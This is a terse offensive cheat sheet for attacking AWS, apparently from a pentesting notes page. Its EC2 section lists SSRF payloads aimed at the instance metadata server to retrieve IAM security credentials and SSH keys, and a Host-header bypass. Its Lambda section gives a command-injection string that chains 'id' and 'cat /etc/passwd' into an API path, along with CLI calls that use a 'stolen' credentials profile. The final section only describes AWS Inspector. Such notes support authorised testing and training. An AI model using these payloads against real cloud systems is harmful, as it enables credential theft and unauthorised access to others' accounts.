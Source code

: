 ### **EC2 example attacks**

```text
# Like traditional host
- Port enumeration
- Attack interesting services like ssh or rdp

# SSRF to http://169.254.169.254 (Metadata server)
curl http://<ec2-ip-address>/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/public-hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/network/interfaces/
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key/
http://169.254.169.254/latest/user-data

# Find IAM Security Credentials
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Using EC2 instance metadata tool
ec2-metadata -h
# With EC2 Instance Meta Data Service version 2 (IMDSv2):
Append X-aws-ec2-metadata-token Header generated with a PUT request to http://169.254.169.254/latest/api/token

# Check directly for metadata instance
curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'
```

### **AWS Lambda**

```text
# Welcome to serverless!!!!
# AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

# OS command Injection in Lambda
curl "https://API-endpoint/api/stringhere"
# For a md5 converter endpoint "https://API-endpoint/api/hello;id;w;cat%20%2fetc%2fpasswd"
aws lambda list-functions --profile stolen
aws lambda get-function --function-name <FUNCTION-NAME> --profile stolen
```

### **AWS Inspector**

```text
# Amazon Inspector is an automated security assessment service that helps improve the security and compliance of applications deployed on AWS.
```
